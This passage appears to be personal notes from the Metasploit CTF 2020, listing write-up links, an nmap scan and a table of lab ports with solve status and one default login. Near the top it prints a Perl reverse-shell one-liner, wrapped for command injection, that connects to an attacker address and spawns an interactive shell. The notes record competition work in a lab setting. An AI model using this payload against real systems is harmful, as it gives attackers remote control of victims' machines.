 `$(perl -e 'use Socket;$i="172.15.18.100";$p=9000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};')`

Actually really cool.

### 5555
Script to play the telnet game. Absolute madman https://gist.github.com/busterb/2fcd6f95acc89c0b85ef2d08b89930ae

### 8092
this is what I get for finding PHP unbelievably dull

## Write-ups
https://sec.stealthcopter.com/tag/ctf/

https://www.youtube.com/watch?v=kEXocIA0BQU

https://rushisec.net/metasploit-ctf-2020-writeup/

https://blog.ikuamike.io/posts/2020/metasploitctf2020/

# Other stuff

## Open ports on Attack box (172.15.100.101)

acquired with nmap `sudo nmap -sS -sV 172.15.100.101` or `-p-` for additional ports, but less information.

Port | Protocol | Notes | Card / Solved
--- | --- | --- | --- |
80 | http | 172.15.100.101/4_of_hearts.png | 4 of Hearts / SOLVED
1080 | socks | allows 1 newline, then closes conn? |
1337 | telnet | 9 of clubs service | 9 of Clubs
4545 | http/dir | directory with 2 files | 8 of Hearts / SOLVED 
5555 | telnet | impossible game | 
6868 | http | some photos, no obvious hints | 6 of Hearts / SOLVED
8080 | http | login page, no obvious hints | 3 of Spades / SOLVED
8092 | http | Apache, login page with PHP code hint | 
8101 | http | EXTREMELY DIFFICULT | 5 of Clubs
8123 | http | Salt Free Hashes, 2 links, fail to load | Black Joker / SOLVED
8200 | http | Gallery | 6 of Diamonds / SOLVED 
8201 | ? | intranet.metasploit.ctf:8201/, doesn't load | 
8202 | http | sign in page, no obvious hints | 
8888 | http | lists all metasploit modules | 
9000 | http | WEBrick httpd 1.6.0 (Ruby 2.7.0), Game Library | 
9001 | http | Thin httpd, Game reviews | 2 of Spades / SOLVED
9007 | http | red_joker.zip | Red Joker / SOLVED 
9008 | telnet | weird ass characters |
9009 | ssh | openssh, Ubuntu. admin/password | Ace of Clubs
9010 | http | Apache, hosting QOH Client.jar | Queen of Hearts
